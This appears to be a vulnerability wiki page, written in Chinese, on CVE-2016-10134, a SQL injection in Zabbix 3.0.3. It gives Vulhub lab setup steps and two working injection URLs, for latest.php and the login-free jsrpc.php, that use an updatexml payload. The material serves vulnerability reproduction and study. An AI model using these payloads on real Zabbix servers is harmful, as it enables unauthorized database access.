



# Zabbix latest.php SQL注入漏洞 CVE-2016-10134

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：实验3.0.3/MySQL；latest需会话/guest开放，jsrpc路径称无需登录需配置核对
- 证据范围：两个入口保留不同鉴权语境，SQL错误输出仅截图

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 示例sid不是所列cookie后16位，读者直接照抄会失败
- 缺完整影响范围和修复版本
- updatexml依赖MySQL版本，不普适所有数据库

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

## 环境搭建

Vulhub执行如下命令启动zabbix 3.0.3：

```shell
docker-compose up -d
```

执行命令后，将启动数据库（mysql）、zabbix server、zabbix agent、zabbix web。如果内存稍小，可能会存在某个容器挂掉的情况，我们可以通过`docker-compose ps`查看容器状态，并通过`docker-compose start`来重新启动容器。

## 漏洞复现

访问`http://your-ip:8080/index.php`，用账号`guest`（密码为空）登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

```
zbx_sessionid=cb4f5e3307ffbca669d1a14be14dc1e0
```



将这16个字符作为sid的值，访问`http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：



这个漏洞也可以通过jsrpc.php触发，且无需登录：`http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：




---

> 来源：Threekiii/Awesome-POC
